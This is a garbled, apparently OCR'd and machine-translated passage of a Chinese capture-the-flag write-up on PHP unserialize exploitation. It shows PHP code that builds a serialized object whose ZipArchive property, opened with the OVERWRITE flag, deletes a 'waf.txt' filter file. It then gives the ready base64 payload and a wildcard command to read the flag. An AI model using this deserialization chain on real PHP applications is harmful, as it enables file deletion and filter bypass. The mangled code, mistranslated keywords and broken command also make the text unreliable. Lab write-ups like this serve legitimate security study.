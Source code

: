                   
      
                  
      
      
          ) { $this ->choice->checking( $this ->username, $this ->password);     }  
              
      
      
    }  
      
    类 登录{公共$file ; 公共$ 文件名；   公开$content ; }  
           
           
           
      
      
    class  Open { function open ( $filename , $content ) {    }} $poc = new Game(); $poc ->username = "admin" ; $poc ->password = "admin" ; $poc ->register = "admin" ; $poc ->file = new ZipArchive(); $poc ->filename = "waf.txt" ; $poc ->content = ZipArchive::OVERWRITE; echo base64_encode(serialize( $poc ));  
           
      
      
      
      
      
      
      
      
      
      
      
  
---|---  
  
`  
`

`生成有效载荷：`

`  
`

``

`蟒蛇`

``

    
    
    1  
    

|

    
    
    Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086MTA6IlppcEFyY2hpdmUiOjU6e3M6Njoic3RhdHVzIjtpOjA7czo5OiJzdGF0dXNTeXMiO2k6MDtzOjg6Im51bUZpbGVzIjtpOjA7czo4OiJmaWxlbmFtZSI7czowOiIiO3M6NzoiY29tbWVudCI7czowOiIiO31zOjg6ImZpbGVuYW1lIjtzOjc6IndhZi50eHQiO3M6NzoiY29udGVudCI7aTo4O30 =  
      
  
---|---  
  
`  
`

`执行后，删除waf.txt。标志就可以使用`n\l /fla*`执行命令读取了：`
